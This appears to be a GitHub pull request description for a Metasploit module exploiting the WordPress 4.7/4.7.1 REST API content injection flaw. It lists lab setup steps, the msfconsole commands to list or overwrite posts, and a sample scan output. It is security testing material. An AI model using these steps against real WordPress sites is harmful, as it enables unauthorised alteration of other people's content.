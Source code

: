 **Feature description:**

This adds a module for the WordPress [4.7](https://wordpress.org/wordpress-4.7.tar.gz)/[4.7.1](https://wordpress.org/wordpress-4.7.1.tar.gz)
content injection vulnerability detailed at
https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html.

**Verification steps:**

- [ ] Download https://wordpress.org/wordpress-4.7.1.tar.gz
- [ ] `tar xf wordpress-4.7.1.tar.gz -C /var/www/html --no-same-owner`
- [ ] Prevent auto-update with either:
    1. [ ] Ensure the install dir is not writable by the web user
    2. [ ] Add the following to `wp_config.php` (after install)
    ```
    define( 'WP_AUTO_UPDATE_CORE', false );
    define( 'AUTOMATIC_UPDATER_DISABLED', true );
    ```
- [ ] Install Wordpress
- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/wordpress_content_injection`
- [ ] Set `rhost`, `rport` and `TARGETURI`
- [ ] Set `ACTION` to either `LIST` or `UPDATE`
- [ ] Set `POST_ID` and `POST_TITLE`, `POST_CONTENT`, and/or `POST_PASSWORD`
- [ ] Run the module

**Sample run:**

This is just the `LIST` action...

```
msf auxiliary(wordpress_content_injection) > run

[*] REST API found in HTML document
Posts at https://[redacted]:443/ (REST API: /wp-json/wp/v2)
============================================================

ID  Title         URL                                        Password
--  -----         ---                                        --------
1   Hello world!  https://[redacted]/2016/10/hello-world/    No
87  Hello world!  https://[redacted]/2016/08/hello-world-2/  No

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(wordpress_content_injection) >
```

